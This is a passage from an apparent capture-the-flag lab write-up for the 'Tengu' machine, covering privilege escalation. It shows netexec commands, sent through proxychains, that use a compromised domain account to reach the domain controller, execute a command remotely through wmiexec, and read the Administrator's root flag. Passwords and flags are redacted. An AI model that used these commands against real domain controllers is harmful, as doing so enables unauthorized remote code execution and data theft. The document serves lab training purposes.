 | Username    | Password                  |
| ----------- | ------------------------- |
| T0_c.fowler | REDACTED |

![](images/2024-03-30_13-42_bloodhound_t0_c_fowler_query.png)

## Privilege Escalation

Using the credentials of `T0_C.FOWLER` granted us access on `dc.tengu.vl` and to the `third and last flag (Tengu_Root)`.

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q netexec smb 'dc.tengu.vl' -u 'T0_c.fowler' -p 'REDACTED' -k 
SMB         dc.tengu.vl     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
SMB         dc.tengu.vl     445    DC               [+] tengu.vl\T0_c.fowler:REDACTED (Pwn3d!)
```

```c
┌──(kali㉿kali)-[~]
└─$ proxychains -q netexec smb 'dc.tengu.vl' -u 'T0_c.fowler' -p 'REDACTED' -k -X 'type C:\Users\Administrator\Desktop\root.txt'
SMB         dc.tengu.vl     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:tengu.vl) (signing:True) (SMBv1:False)
SMB         dc.tengu.vl     445    DC               [+] tengu.vl\T0_c.fowler:REDACTED (Pwn3d!)
SMB         dc.tengu.vl     445    DC               [+] Executed command via wmiexec
SMB         dc.tengu.vl     445    DC               VL{REDACTED}
```

## root.txt (Tengu_Root)

```c
VL{REDACTED}
```